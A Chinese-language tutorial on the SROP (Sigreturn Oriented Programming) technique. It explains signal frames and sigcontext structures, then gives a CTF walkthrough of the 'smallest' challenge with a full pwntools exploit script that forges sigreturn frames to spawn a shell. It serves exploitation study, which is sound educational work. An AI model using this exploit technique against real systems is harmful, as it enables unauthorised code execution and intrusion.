

# SROP

## 基本介绍

SROP(Sigreturn Oriented Programming)于2014年被Vrije Universiteit Amsterdam的Erik Bosman提出，其相关研究**`Framing Signals — A Return to Portable Shellcode`**发表在安全顶级会议[Oakland 2014](http://www.ieee-security.org/TC/SP2014)上，被评选为当年的[Best Student Papers](http://www.ieee-security.org/TC/SP2014/awards.html)。其中相关的paper以及slides的链接如下：

[paper](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)

[slides](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)

其中，`sigreturn`是一个系统调用，在类unix系统发生signal的时候会被间接地调用。

## signal机制

 signal机制是类unix系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用kill来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：


1. 内核向某个进程发送signal机制，该进程会被暂时挂起，进入内核态。

2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入signal信息，以及指向sigreturn的系统调用地址**。此时栈的结构如下图所示，我们称ucontext以及siginfo这一段为Signal Frame。**需要注意的是，这一部分是在用户进程的地址空间的。**之后会跳转到注册过的signal handler中处理相应的signal。因此，当signal handler执行完之后，就会执行sigreturn代码。

    

    对于signal Frame来说，会因为架构的不同而有所区别，这里给出分别给出x86以及x64的sigcontext

    -   x86

    ```c
    struct sigcontext
    {
      unsigned short gs, __gsh;
      unsigned short fs, __fsh;
      unsigned short es, __esh;
      unsigned short ds, __dsh;
      unsigned long edi;
      unsigned long esi;
      unsigned long ebp;
      unsigned long esp;
      unsigned long ebx;
      unsigned long edx;
      unsigned long ecx;
      unsigned long eax;
      unsigned long trapno;
      unsigned long err;
      unsigned long eip;
      unsigned short cs, __csh;
      unsigned long eflags;
      unsigned long esp_at_signal;
      unsigned short ss, __ssh;
      struct _fpstate * fpstate;
      unsigned long oldmask;
      unsigned long cr2;
    };
    ```

    -   x64

    ```c
    struct _fpstate
    {
      /* FPU environment matching the 64-bit FXSAVE layout.  */
      __uint16_t		cwd;
      __uint16_t		swd;
      __uint16_t		ftw;
      __uint16_t		fop;
      __uint64_t		rip;
      __uint64_t		rdp;
      __uint32_t		mxcsr;
      __uint32_t		mxcr_mask;
      struct _fpxreg	_st[8];
      struct _xmmreg	_xmm[16];
      __uint32_t		padding[24];
    };
    
    struct sigcontext
    {
      __uint64_t r8;
      __uint64_t r9;
      __uint64_t r10;
      __uint64_t r11;
      __uint64_t r12;
      __uint64_t r13;
      __uint64_t r14;
      __uint64_t r15;
      __uint64_t rdi;
      __uint64_t rsi;
      __uint64_t rbp;
      __uint64_t rbx;
      __uint64_t rdx;
      __uint64_t rax;
      __uint64_t rcx;
      __uint64_t rsp;
      __uint64_t rip;
      __uint64_t eflags;
      unsigned short cs;
      unsigned short gs;
      unsigned short fs;
      unsigned short __pad0;
      __uint64_t err;
      __uint64_t trapno;
      __uint64_t oldmask;
      __uint64_t cr2;
      __extension__ union
        {
          struct _fpstate * fpstate;
          __uint64_t __fpstate_word;
        };
      __uint64_t __reserved1 [8];
    };
    ```

3. signal handler返回后，内核为执行sigreturn系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新pop回对应的寄存器，最后恢复进程的执行。其中，32位的sigreturn的调用号为119(0x77)，64位的系统调用号为15(0xf)。

## 攻击原理

仔细回顾一下内核在signal信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在Signal Frame中。但是需要注意的是：

- Signal Frame被保存在用户的地址空间中，所以用户是可以读写的。
- 由于内核与信号处理程序无关(kernel agnostic about signal handlers)，它并不会去记录这个signal对应的Signal Frame，所以当执行sigreturn系统调用时，此时的Signal Frame并不一定是之前内核为用户进程保存的Signal Frame。

说到这里，其实，SROP的基本利用原理也就出现了。下面举两个简单的例子。

### 获取shell

首先，我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个Signal Frame，如下图所示，这里以64位为例子，给出Signal Frame更加详细的信息


当系统执行完sigreturn系统调用之后，会执行一系列的pop指令以便于恢复相应寄存器的值，当执行到rip时，就会将程序执行流指向syscall地址，根据相应寄存器的值，此时，便会得到一个shell。

### system call chains

需要指出的是，上面的例子中，我们只是单独的获得一个shell。有时候，我们可能会希望执行一系列的函数。我们只需要做两处修改即可

- **控制栈指针。**
- **把原来rip指向的`syscall` gadget换成`syscall; ret` gadget。**

如下图所示 ，这样当每次syscall返回的时候，栈指针都会指向下一个Signal Frame。因此就可以执行一系列的sigreturn函数调用。


### 后续

需要注意的是，我们在构造ROP攻击的时候，需要满足下面的条件

-   **可以通过栈溢出来控制栈的内容**
-   **需要知道相应的地址**
    -   **"/bin/sh"**
    -   **Signal Frame**
    -   **syscall**
    -   **sigreturn**
-   需要有够大的空间来塞下整个sigal frame

此外，关于sigreturn以及syscall;ret这两个gadget在上面并没有提及。提出该攻击的论文作者发现了这些gadgets出现的某些地址：


并且，作者发现，有些系统上SROP的地址被随机化了，而有些则没有。比如说`Linux < 3.3 x86_64`（在Debian 7.0， Ubuntu Long Term Support， CentOS 6系统中默认内核），可以直接在vsyscall中的固定地址处找到syscall&return代码片段。如下



但是目前它已经被`vsyscall-emulate`和`vdso`机制代替了。此外，目前大多数系统都会开启ASLR保护，所以相对来说这些gadgets都并不容易找到。

值得一说的是，对于sigreturn系统调用来说，在64位系统中，sigreturn系统调用对应的系统调用号为15，只需要RAX=15，并且执行syscall即可实现调用syscall调用。而RAX寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说read函数的返回值为读取的字节数。

## 利用工具

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

## 示例

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

```text
➜  smallest file smallest
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到该程序为64位静态链接版本。

**检查保护**

```text
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根据syscall的编号为0，可以知道该程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

- 通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
- 通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

其基本流程为

- 读取三个程序起始地址
- 程序返回时，利用第一个程序起始地址读取地址，修改返回地址(即第二个程序起始地址)为源程序的第二条指令，并且会设置rax=1
- 那么此时将会执行write(1,$esp,0x400)，泄露栈地址。
- 利用第三个程序起始地址进而读入payload
- 再次读取构造sigreturn调用，进而将向栈地址所在位置读入数据，构造execve('/bin/sh',0,0)
- 再次读取构造sigreturn调用，从而获取shell。

## 题目

- [Defcon 2015 Qualifier: fuckup](https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344)

参考阅读

- [Sigreturn Oriented Programming (SROP) Attack攻击原理](http://www.freebuf.com/articles/network/87447.html)
- [SROP by Angel Boy](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [系统调用](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
  